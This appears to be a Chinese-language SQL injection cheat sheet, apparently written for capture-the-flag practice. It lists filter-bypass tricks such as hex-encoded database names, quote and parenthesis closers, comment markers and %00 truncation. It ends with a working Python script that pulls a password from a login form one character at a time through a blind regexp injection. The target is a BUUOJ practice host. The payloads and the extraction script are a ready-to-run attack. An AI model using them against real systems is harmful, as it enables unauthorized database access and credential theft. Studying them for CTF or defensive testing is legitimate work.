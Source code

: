 group_concat可以用concat_ws替换

数据库名可以用十六进制替换：0x十六进制的数据库名

# 2 闭合字符

- 引号类

```
'
"
)
')
")
数字型，考虑使用注释符
```

- 注释符

```
#
--+
/**/
```

- %00

```
因为#，-都被过滤，于是采用%00进行截断，注意如果在输入框中直接输入%00，那么就会被编码成%2500，然后计算机在解码成%00，会黑名单过滤
在bp中直接输入%00，防止二次编码可以达到截断的作用
```

如果写python脚本的话，由于要防止二次编码，%00要写作parse.unquote('%00')

比如说脚本

```python
import requests
import time
from urllib import parse
import string
 
url="http://53329c83-815a-48d8-9191-6c3270f58121.node4.buuoj.cn:81/index.php"
 
passwd=''
 
proxies = { "http": None, "https": None}        #3.7以后要添加代理池
strings='_'+string.ascii_lowercase+string.digits
 
for pos in range(1,10000):
    for asci in strings:
        data={
    "username":"\\",
    "passwd":'||/**/passwd/**/regexp/**/"^{}";{}'.format(passwd+asci,parse.unquote('%00'))
}
 
        resp = requests.post(url=url,data=data,proxies=proxies);
 
        #print(resp.text)
 
        if 'welcome' in resp.text:
            print('true')
            passwd = passwd + asci
            print("[*]passwd : "+passwd)
            break
```
